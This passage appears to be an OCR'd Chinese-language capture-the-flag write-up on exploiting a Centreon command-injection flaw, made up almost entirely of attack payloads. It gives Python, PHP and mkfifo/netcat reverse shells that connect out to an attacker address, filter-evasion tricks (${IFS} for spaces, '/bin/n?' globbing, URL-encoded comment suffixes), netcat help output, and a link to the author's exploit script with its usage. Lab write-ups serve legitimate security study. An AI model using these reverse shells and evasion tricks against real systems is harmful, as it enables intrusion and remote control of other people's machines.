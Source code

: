 python${IFS}-c${IFS}'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.18",9000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'%20%23

403 forbidden

---

php --version

```
PHP 7.3.6-1+ubuntu18.04.1+deb.sury.org+1 (cli) (built: May 31 2019 11:06:48) ( NTS )<br>Copyright (c) 1997-2018 The PHP Group<br>Zend Engine v3.3.6, Copyright (c) 1998-2018 Zend Technologies<br>    with Zend OPcache v7.3.6-1+ubuntu18.04.1+deb.sury.org+1, Copyright (c) 1999-2018, by Zend Technologies<br><br></div><br/>]

php -r '$sock=fsockopen("10.10.14.18",9000);exec("/bin/sh -i <&3 >&3 2>&3");'
。。。
```
---

```
/bin/n?${IFS}-h%20%23

OpenBSD netcat (Debian patchlevel 1.187-1ubuntu0.1)<br>usage: nc [-46CDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl]<br>  [-m minttl] [-O length] [-P proxy_username] [-p source_port]<br>  [-q seconds] [-s source] [-T keyword] [-V rtable] [-W recvlimit] [-w timeout]<br>  [-X proxy_protocol] [-x proxy_address[:port]]   [destination] [port]<br>Command Summary:<br>-4Use IPv4<br>-6Use IPv6<br>-bAllow broadcast<br>-CSend CRLF as line-ending<br>-DEnable the debug socket option<br>-dDetach from stdin<br>-FPass socket fd<br>-hThis help text<br>-I lengthTCP receive buffer length<br>-i intervalDelay interval for lines sent, ports scanned<br>-kKeep inbound sockets open for multiple connects<br>-lListen mode, for inbound connects<br>-M ttlOutgoing TTL / Hop Limit<br>-m minttlMinimum incoming TTL / Hop Limit<br>-NShutdown the network socket after EOF on stdin<br>-nSuppress name/port resolutions<br>-O lengthTCP send buffer length<br>-P proxyuserUsername for proxy authe

openbsd版本的nc，没有-e参数的那种
```
---

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

/bin/rm${IFS}/tmp/f;/usr/bin/mkfifo${IFS}/tmp/f;/bin/cat${IFS}/tmp/f|/bin/sh${IFS}-i${IFS}2>&1|/bin/n?${IFS}10.10.14.18${IFS}443${IFS}>/tmp/f%20%23
```
---

## exp测试
11月17日更新，周末终于有空了。
为了简化手动操作的繁琐，我修改了一下exp。这是下载地址：[https://github.com/Whale3070/ctf-coding/blob/master/centreon.py](https://github.com/Whale3070/ctf-coding/blob/master/centreon.py)，使用方式是`./centreon.py 要执行的命令`

![70](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18-10/70.PNG)

